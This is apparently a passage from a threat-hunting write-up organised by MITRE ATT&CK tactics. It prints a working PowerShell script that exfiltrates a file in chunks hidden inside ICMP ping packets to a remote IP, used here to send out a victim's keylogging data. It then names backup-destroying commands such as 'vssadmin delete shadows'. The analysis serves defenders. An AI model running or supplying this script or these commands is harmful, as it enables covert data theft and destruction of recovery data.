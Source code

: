 This is the content of the malicious script → **icmp4data.ps1**

```powershell
param (
    [string]$fl = "file",
    [string]$ip = "ip"
)
$ping = New-Object System.Net.Networkinformation.ping
$readChunkSize = 15
foreach ($Data in Get-Content -Path $fl -Encoding Byte -ReadCount $readChunkSize) {
    $ping.Send($ip, $readChunkSize, $Data)
}
```

This script is a **covert data exfiltration tool** that uses ICMP (ping) packets to secretly send file contents to a remote server.

- Reads a specified file (**`$fl`**) in **binary mode** (15 bytes at a time)
- Each 15-byte chunk is embedded in the **data portion of an ICMP Echo Request (ping) packet**
- Sent to the target IP address specified in **`$ip`**

Here is the execution of the script; the attacker exfiltrates the DB file we discovered in the collection phase, which contained the victim’s keylogging, to a remote server

<img width="1102" height="152" alt="Screenshot 2025-08-12 211245" src="https://github.com/user-attachments/assets/808b1d55-7777-4ee6-baa7-9c49371e5fbf" />

The total number of sent ICMP packets is 21 

<img width="1910" height="814" alt="Screenshot 2025-08-12 213131" src="https://github.com/user-attachments/assets/448213c6-6b0f-419e-8edc-11f8896393c6" />

## Tactic: Impact

### **What is the Impact Tactic?**

- Part of the MITRE ATT&CK framework ([**TA0040**](https://attack.mitre.org/tactics/TA0040/)).
- Focuses on **disrupting availability, functionality, or data integrity**.
- Includes **ransomware, data destruction, manipulation, defacement, and service disruption**.

**Common Techniques Used**

- **System/Service Disruption**: Modifying critical settings (**`bcdedit`**, **`vssadmin`**).
- **Data Manipulation/Destruction**: Deleting backups (**`vssadmin delete shadows`**), encrypting files.
- **Recovery Prevention**: Disabling recovery tools (**`recoveryenabled no`**).

**Why Is It Dangerous?**

- **Silent but devastating** (e.g., Olympic Destroyer APT group manipulated backups silently).
- Often uses **native tools** (**`del`**, **`rm`**, **`vssadmin`**, **`wbadmin`**) to evade detection.
- Can lead to **permanent data loss** or **unrecoverable system states**.

**Detection & Hunting Tips**

**Key Logs to Monitor**:
